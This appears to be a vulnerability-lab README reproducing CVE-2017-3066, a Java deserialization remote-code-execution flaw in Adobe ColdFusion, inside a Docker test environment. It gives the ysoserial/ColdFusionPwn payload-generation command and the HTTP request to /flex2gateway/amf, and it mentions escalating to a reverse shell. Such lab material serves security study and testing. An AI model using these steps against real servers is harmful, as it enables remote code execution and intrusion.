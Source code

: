 # Adobe ColdFusion Deserialization Vulnerability (CVE-2017-3066)

Adobe ColdFusion is a dynamic Web server product from Adobe, USA. Its running CFML (ColdFusion Markup Language) is a programming language for web applications.

A java deserialization vulnerability exists in Adobe ColdFusion. An attacker could exploit the vulnerability to execute arbitrary code or cause a denial of service in the context of an affected application. The following versions are affected: Adobe ColdFusion (2016 release) Update 3 and prior, ColdFusion 11 Update 11 and prior, ColdFusion 10 Update 22 and prior.

Reference link:

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## vulnerability environment

Start the vulnerability environment:

```
Docker-compose up -d
```

Wait a few minutes, the environment starts successfully, visit `http://your-ip:8500/CFIDE/administrator/index.cfm`, enter the password `vulhub`, you can successfully install Adobe ColdFusion.

## Vulnerability recurrence

We use the [ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn) tool in the reference link to generate the POC:

```
Java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

The POC is generated in the poc.ser file, and the POC is sent as a packet body to `http://your-ip:8500/flex2gateway/amf`, and the Content-Type is application/x-amf:

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

Go into the container and find that `/tmp/success` has been successfully created:

![](2.png)

Change the POC to [Bounce Command] (http://jackson.thuraisamy.me/runtime-exec-payloads.html) and successfully get the shell:

![](3.png)